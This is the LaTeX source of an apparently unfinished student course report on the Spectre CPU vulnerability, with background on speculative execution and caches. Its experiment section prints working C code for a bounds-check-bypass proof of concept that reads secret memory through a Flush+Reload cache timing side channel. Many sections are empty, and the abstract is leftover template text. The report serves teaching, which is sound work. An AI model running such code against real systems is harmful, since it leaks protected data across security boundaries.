\documentclass[12pt]{article}
\usepackage[toc,page]{appendix}
\usepackage[english]{babel}
\usepackage{natbib}
\usepackage{url}
\usepackage[utf8x]{inputenc}
\usepackage{amsmath}
\usepackage{graphicx}
\graphicspath{{images/}}
\usepackage{parskip}
\usepackage{fancyhdr}
\usepackage{vmargin}


\usepackage{xcolor}
\usepackage{listings}

\definecolor{mGreen}{rgb}{0,0.6,0}
\definecolor{mGray}{rgb}{0.5,0.5,0.5}
\definecolor{mPurple}{rgb}{0.58,0,0.82}
\definecolor{backgroundColour}{rgb}{0.95,0.95,0.92}

\lstdefinestyle{CStyle}{
    backgroundcolor=\color{backgroundColour},   
    commentstyle=\color{mGreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{mGray},
    stringstyle=\color{mPurple},
    basicstyle=\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2,
    language=C
}


\setmarginsrb{3 cm}{2.5 cm}{3 cm}{2.5 cm}{1 cm}{1.5 cm}{1 cm}{1.5 cm}

\title{i7: Spectre and More}								% Title
\author{Sanchit Jain\\ Charith \\Rahul\\Suraj\\ Jeevitesh}								% Author
\date{\today}											% Date

\makeatletter
\let\thetitle\@title
\let\theauthor\@author
\let\thedate\@date
\makeatother

\pagestyle{fancy}
\fancyhf{}
% \rhead{\thechapter}
\lhead{\thetitle}
\cfoot{\thepage}


\begin{document}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\begin{titlepage}
	\centering
    \vspace*{0.5 cm}
    
\includegraphics[scale = 0.25]{logo.png}\\[1.0 cm]	% University Logo
    \textsc{\LARGE Indian Institute of Technology Bombay}\\[2.0 cm]	% University Name
	\textsc{\Large CS305/341}\\[0.5 cm]				% Course Code
	\textsc{\large  Computer Architecture}\\[0.5 cm]				% Course Name
	\rule{\linewidth}{0.2 mm} \\[0.4 cm]
	{ \huge \bfseries \thetitle}\\
	\rule{\linewidth}{0.2 mm} \\[1.5 cm]
	
	\begin{minipage}{0.4\textwidth}
		\begin{flushleft} \large
			\emph{Authors:}\\
			\theauthor
			\end{flushleft}
			\end{minipage}~
			\begin{minipage}{0.4\textwidth}
			\begin{flushright} \large
			\emph{Roll Number:} \\
			160050043\\
			160050083\\
			160050072\\
			1600500XX\\
			1600500XX\\% Your Student Number
		\end{flushright}
	\end{minipage}\\[2 cm]
	
	{\large \thedate}\\[2 cm]
 
	\vfill
	
\end{titlepage}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\tableofcontents
\pagebreak

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\section{Abstract}
\subsection{What is Spectre?}
This is a simple report template with the UCT logo. Feel free to use/modify it to suit your needs. Variables that need to be altered have been commented to make modifications easier. For example if you need to change the university logo, look for the comment \texttt{\% University Logo} in this file and then make appropriate modifications in that line.

A Table of Contents and a bibliography have also been implemented. To add entries to your bibliography, simply edit \texttt{biblist.bib} in the root folder and then use the \texttt{\textbackslash cite\{\ldots\}} command in \texttt{main.tex} \cite{bibtex}. The Table of Contents will be updated automatically.

I hope that you find this template both visually appealing and useful. \\
\subsection{Can someone Explain in Simple words?}
\subsection{Is is Really a ghost?}
\textbf{Yes!}

\section{Baby Steps/Background}
\subsection{Out of order Execution}
\textbf{Out of order execution} is a paradigm in which instructions are executed not in the order of how they appear but on the \textbf{input data and execution units availiability} to the processor for their execution. This is a commonly used approach in high performing processors. Clearly, this approach efficiently uses the instruction cycles and reduces the cost delay of executing a program.  
\subsubsection{More details}
The earlier processors( \textbf{in-order executive} ) differ from an \textbf{OoOE ( out of order executive)} processor in processing an instruction as follows. An inorder processor fetches the instruction, waits for it's inputs and availiability of execution units and then executes the instruction. It finally writes the result of instruction into the appropriate register in the register file. 

In contrast, OoOE processors breaks up the processing of instructions into these steps:
\begin{enumerate}
	\item Fetch the instruction.
	\item Dispatch it to an instruction queue.
	\item Executes the instructions in the queue based on the availiability of data and execution units.
	\item The results are queued and are written to the register file in the order of appearance.
\end{enumerate}

Note that the execution of instructions in step 3 doesn't follow the program order of instruction. 
This results in utilising, otherwise stalled clock cycles. The processor finally rearranges the result in the order of appearance to make it appear that it processed them in order. 

Further, modern processor uses some decoupling techinques such as renaming of registers and a certain \textbf{VLIW} architechture to effectively use this paradigm.

   The take away point is that modern processors are mostly OoOE and they execute instructions out of order for efficiency. 
  
\subsection{Speculation Execution}
When a processor encounters a branch instruction whose branching condition is not yet evaluated ( generally, because this instruction is being executed out of order), the \textbf{speculative execution paradigm} allows the processor to make a guess and take the branch and starts executing. \\
The cpu has to store it's register state before it speculatively executes. In case it comes to know that the branch it started evaluating isn't the right one, it reverts back to the saved state. With a good brach prediction algorithm, clearly, this paradigm greatly improves the execution time of a program with many branch instructions. 

Let us see some of the mechanisms for prediction employed in modern-day processors.  
\subsection{Branch Prediction}
In general, processors predict the following for preventing stalls 
\begin{enumerate}
	\item The target address of \textit{ direct calls and jumps }.  
	\item The target address of \textit{ indirect calls and jumps }.
	\item The target address of \textit{ conditional branches }.
\end{enumerate}
Processors also contain a component called \textbf{Branch Target Buffer (BTB) } which keeps a mapping from addresses of recently executed branch instructions to destination addresses. The processors refer to the BTB during the \textbf{I-state} of the \textbf{instruction pipeline cycle} ( where the instructions are decoded) and predict the target address even before the instruction is executed.

For conditional branching, as the target address is already encoded in the instruction, such mapping is not needed. Instead, the branch outcome history is used for predicting. Processors also uses the branch outcome history for predicting direct and indirect branches also. 

It is to be noted that the above used branch-prediction logic is typically not shared across physical cores. Hence, the processor learns only from previous branches executed on the same core. This is useful information for an attacker.
\newpage
\subsection{The Memory Hierarchy}
In general, the memory of the CPU is divided into three caches and an external memory and is \textbf{hierarchial}. This is to allow faster access time to the data essential to the process running on the CPU. The chain of access is passed from \textbf{L1} cache to \textbf{L2} cache, from \textbf{L2} to \textbf{L3} cache and then to external memory based on whether we recieve a hit on the presence of the required data among the caches. The L1 cache has the fastest  access time and this slows down as we move down this hierarchy. It is to noted that while each core has it's own L1 and L2 caches the L3 is common for the cores.

The coherence of the L1 and L2 caches across the multiple cores is maintained by the cache coherence protocol that usually is dependant on \textbf{MESI(Modified-Exclusive-Shared-Invalid) Protocol}.

Several properties of the cache coherency protocol such as \textbf{\textit{cache-line bouncing}}, \textbf{\textit{false sharing}} can sometimes be abused as a replacement for cache eviction using the \textbf{clflush instruction} or eviction patterns.
\subsection{Microarchitectural Side-Channel Attacks/Flush-Reload Techniques}

\subsection{Return Oriented Programming}
\section{What is Spectre? Why is it more famous than me?}
\subsection{General}
Spectre is a class of attacks that exploit security vulnerabilities in most modern processors. Specifically, the persistent effects (in cache) of speculative execution resulting from a branch mis-prediction are used to read data that is supposed to be inaccessible to the attacker. The assumption that speculative execution can be completely rolled back turns out to be wrong, and spectre attacks read this leaked data. There are several variants to spectre, we describe two of them below.
\subsection{Variant1 - Bounds Check Bypass}
\subsection{Varient2}
\subsection{Varient4}
\section{Our Result(Code+Result(screenshot))}
\section{Proof of Concept Study}
\section{The Experiment}
\subsection{Experiment Setup}
\subsubsection{Setting the context}
\begin{lstlisting}[style=CStyle]
unsigned int buffer_size = 10;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9};
uint8_t temp = 0;
char* secret = "Some Secret Value";
uint8_t array[256*4096];
\end{lstlisting}
buffer is accessible using restrictedAccess()
secret is to be stolen
array is helper(side channel) to steal secret  
\subsubsection{Restricted Access}
\begin{lstlisting}[style=CStyle]
uint8_t restrictedAccess(size_t x)
{
	if (x < buffer_size) {
		return buffer[x];
	} 
	else {
		return 0;
	}
}
\end{lstlisting}
This is a simple C function which gives access to elements within buffer\_ size and restricts access to locations outside buffer size by returning 0. This is the target of our attack. The aim is to extract information outside buffer\_size using this function 
\subsubsection{Flush side channel}
\begin{lstlisting}[style=CStyle]
void flushSideChannel()
{
	int i;
	// Write to array to bring it to RAM to prevent On-Demand-Allocation
	for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 0;
		// Flush the values of the array from cache
	for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}
\end{lstlisting}
Almost all Operating Systems implement a policy called \textbf{On-Demand-Allocation}. According to this policy the OS allocates memory to a process only if the process accesses it. Elements of array(line 4) are accessed and assigned 0(could be any value) to ensure that memory is allocated to array. Flushing the elements of array is required to ensure that all elements of array are brought to cache by the function spectreAttack during \textbf{speculative execution}(Look at section Spectre Attack for better understanding) \\
There is no significance of DELTA. Any DELTA can be used.\\
Only array elements present in different pages are used to ensure that they are present in different pages to overcome effects of prefetching \\

\subsubsection{Spectre Attack}
\begin{lstlisting}[style=CStyle]
void spectreAttack(size_t larger_x)
{
	int i;
	uint8_t s;
	// Train the CPU to take the true branch inside victim().
	for (i = 0; i < 10; i++) {
		_mm_clflush(&buffer_size);
		restrictedAccess(i);
	}
	// Flush buffer_size and array[] from the cache.
	_mm_clflush(&buffer_size);
	flushSideChannel();
	// Ask victim() to return the secret in out-of-order execution.
	s = restrictedAccess(larger_x);
	array[s*4096 + DELTA] += 88;
}
\end{lstlisting}

This function flushes buffer\_size and calls restrictedAccess() with elements within buffer\_size enough number of times. As restrictedAccess() requires buffer\_size to check if the access is valid and buffer\_size was flushed to memory(its not present in cache), it takes a lot of time to retrive buffer\_size. As most processors use branch predictors and as restrictedAccess() is called with valid index many times, the \textbf{branch predictor gets trained} to pridect \textbf{branch not taken} in the `if condition' of restrictedAccess().\\
After this the function calls flushSideChannel() to ensure that all elements are brought to cache only during execution of line 15.\\
Calling spectreAttack with a large value say larger\_x should ideally return 0, but because the buffer\_size is flushed and speculative execution predicts branch not taken the restrictedAccess(larger\_x) returns buffer[larger\_x] and if the statement in line 15 gets executed, $array[s*4096+DELTA]$ is brought to cache.\\
Immediately after buffer\_size has arrived from memory the proccessor realizes that the speculative execution was wrong(by execution of if statement in restrictedAccess()) and reverts back everything that happened till this point.
But this does not flush the element $array[s*4096+DELTA]$ from cache. 
The current state is all the elements except $array[s*4096+DELTA]$ are present in main memory but $array[s*4096+DELTA]$ is present in the cache.   
 
   
\subsubsection{Reload Side Channel}
\begin{lstlisting}[style=CStyle]
static int scores[256];
void reloadSideChannel()
{
	int i;
	volatile uint8_t* addr;
	register uint64_t time1, time2;
	int junk = 0;
	for (i = 0; i < 256; i++) {
		addr = &array[i*4096 + DELTA];
		time1 = __rdtscp(&junk);
		junk = *addr;
		time2 = __rdtscp(&junk) - time1;
		if (time2 <= CACHE_HIT_THRESHOLD)
		scores[i]++; 
	}
}
\end{lstlisting}

This function brings all 256 elements to cache and measures the time taken for each element in doing so. As elements present in the cache take significantly less time compared to elements not present in cache. Since only elements of array accessed would be the result of speculative execution, the data present at buffer[larger\_x] can be determined.
This function uses $\_\_rdtscp (\&junk)$ gives current time of CPU in some CPU uints.
Line 10,11,12 finds the time taken to access addr which is $array[i*4096+DELTA]$ and
$scores[i]$ stores the number of times $i^{th}$ element was brought to cache.
CACHE\_HIT\_THRESHOLD is used to differentiate between elements already present in cache and those coming from main memory.

  
\subsection{Our Result}

We executed \textbf{spectreAttack()} immediately followed by \textbf{reloadSideChannel()} 1000 number of times and then found the element of array which was present in cache for the most number of times. The result is as follows.

\vspace*{0.5 cm}
	{\centering
    \vspace*{0.5 cm}

\includegraphics[scale = 0.6]{spectre.png}\\[1.0 cm]}


\newpage
\section{Mitigations}
\subsection{Preventing Speculative Execution}
\subsection{Preventing Access to Secret Data}
\subsection{Preventing Data from Entering Covert Channels}
\subsection{Limiting Data Extraction from Covert Channels}
\subsection{Preventing Branch Poisoning}
\section{Current Work Going On}
\section{Conclusion}
\section{Acknowledgement}
\newpage
\bibliographystyle{plain}
\bibliography{biblist}
\newpage
\begin{appendices}	
	\section{: Meltdown. Lets melt its cocoon}
	% the \\ insures the section title is centered below the phrase: AppendixA
	
	\textbf{PersonX}: Do you have a Sibling?\\
	
	\textbf{Spectre}: Ahh yes I have one named Meltdown\\
	
	\textbf{PersonX}: Can you tell us something about it?\\
	
	\textbf{Spectre}: Like every pair of Siblings we are from same Parents. The basic ideologies and mechanism through which we arise are the same. We both are based on Speculative Execution/Branch Prediction. But yet we are not the same. It is different from me in the following sense.
	
	\section{:  Onomastics of Spectre and Meltdown}
	% the \\ insures the section title is centered below the phrase: Appendix B
	
	\textbf{PersonX}: What was the reason that your parents chose these names for you?\\
	
	\textbf{Spectre}: Well I don't know. You should go and ask my parents I suppose. From what they have told me or what many believe is the following reason. For me it is because since my internals are based on \textbf{'Speculative Execution'}  so they wanted something similar sounding.\\ When I was born/discovered they knew I am very dangerous to a department called cyber security hence one of my parents \textbf{Paul Kocher} named me "Spectre" which really means a \textbf{ghost}. I not only was supposed to \textbf{haunt the cyber security proffessionals} but also was largely \textbf{invisible} to the ordinary program execution.\\
	
	\textbf{PersonX}: What about the naming of "Meltdown"?\\
	
	\textbf{Spectre}: The thinking of the name of "Meltdown" actually ironically haunts me and makes me really jealous. It is believed to be coined by one of my parent \textbf{Daniel Gruss} . The reason given for this coining of name was that since it \textbf{melts the boundary} \textbf{between programs} and \textbf{OS} it is aptly called "Meltdown". The name also made it sounds really devastating, with a huge impact, like an actual \textbf{meltdown in a nuclear reactor}.\\
	Moreover, in \textbf{German}, meltdown is \textbf{'Kernschmelze'}, which means \textbf{'melting of the core'}. Since we call the CPU as a core and indeed a 'CPU Kern' so it is also a wordplay, implying that the CPU is not in a good condition."
	
\end{appendices}
\end{document}